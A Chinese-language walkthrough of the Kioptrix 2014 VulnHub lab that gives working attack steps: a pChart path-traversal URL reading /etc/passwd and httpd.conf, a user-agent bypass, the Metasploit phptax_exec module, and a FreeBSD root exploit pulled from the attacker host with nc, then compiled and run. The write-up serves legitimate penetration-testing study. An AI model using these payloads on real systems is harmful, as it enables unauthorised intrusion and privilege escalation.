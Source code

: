 # Kioptrix5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-2014-5,62/

**Description**

As usual, this vulnerable machine is targeted at the beginner. It's not meant for the seasoned pentester or security geek that's been at this sort of stuff for 10 years. Everyone needs a place to start and all I want to do is help in that regard.

Also, before powering on the VM I suggest you remove the network card and re-add it. For some oddball reason it doesn't get its IP (well I do kinda know why but don't want to give any details away). So just add the VM to your virtualization software, remove and then add a network card. Set it to bridge mode and you should be good to go.

This was created using ESX 5.0 and tested on Fusion, but shouldn't be much of a problem on other platforms.

Kioptrix VM 2014 download 825Megs

MD5 (kiop2014.tar.bz2) = 1f802308f7f9f52a7a0d973fbda22c0a

SHA1 (kiop2014.tar.bz2) = 116eb311b91b28731855575a9157043666230432

Waist line 32"

p.s.: Don't forget to read my disclaimer...

Works out of the box with VMware workstation 10, player 6, fusion 6 (Can edit the vmx file to force a downgrade for an older version - see 'kiop2014_fix.zip'). Has been known to work with Virtualbox 4.3 or higher... First thing: try setting it to a x64 machine. Then check: http://download.vulnhub.com/kioptrix/kiop2014_fix.zip.

**知识点**
- LFI
- 自定义 User-agent
- phptax 漏洞利用
- freebsd 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.147` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.147
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/2.png)

一个 SSH，2个 web,从 web 先入手

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/3.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/4.png)

看来都需要爆破目录了
```
dirb http://192.168.141.147
dirb http://192.168.141.147:8080
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/5.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/6.png)

啥都没有,再看看 index.html

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/7.png)

有个 pChart2.1.3,访问看看

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/8.png)

---

# 中期-漏洞利用

有点意思,找找它的漏洞
```
searchsploit -w pChart
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/9.png)

访问 https://www.exploit-db.com/exploits/31173,发现有个目录遍历可以利用下

`http://192.168.141.147/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/10.png)

尝试使用这个漏洞挖掘更多的信息

爆了半天，没爆出 httpd 配置文件，google 了一下发现别人爆出来是 `http://192.168.141.147/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf`

想不出来这个 apache22 是怎么爆出来的，难不成是看 apache 版本号?

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/11.png)

看了下 httpd.conf 的内容,发现 8080 只允许 user-agent 为 Mozilla/4.0 Mozilla4_browser 才能访问

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/12.png)

firefox 可以自定义 user-agent

访问 about:config,搜索 general.useragent.override

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/13.png)

输入 `Mozilla/4.0 Mozilla4_browser`,再访问 192.168.141.147:8080

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/14.png)

ok,有东西了,点进去看看

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/15.png)

看起来这东西有一定年头了,搜了下这是个叫 phptax 的纳税工具,MSF 有个可利用的模块
```
msfconsole
use exploit/multi/http/phptax_exec
options
set RHOSTS 192.168.141.147
set RPORT 8080
run
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/16.png)

下面尝试提权

---

# 后期-漏洞利用

查看一些基本信息
```bash
/bin/sh -i
uname -a
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/17.png)

```
searchsploit -w freebsd 9.0
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/18.png)

kali 访问 https://www.exploit-db.com/download/26368,下载 poc

kali 下载完启 HTTP
```bash
wget https://www.exploit-db.com/download/26368
mv 26368 poc.c
nc -lvp 1234 < poc.c
```

靶机下载 kali 上的 poc
```bash
cd /tmp
nc -nv 192.168.141.134 1234 > poc.c
gcc poc.c
ls
./a.out
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix5/19.png)

提权成功,感谢 Kioptrix Team 制作的系列靶机

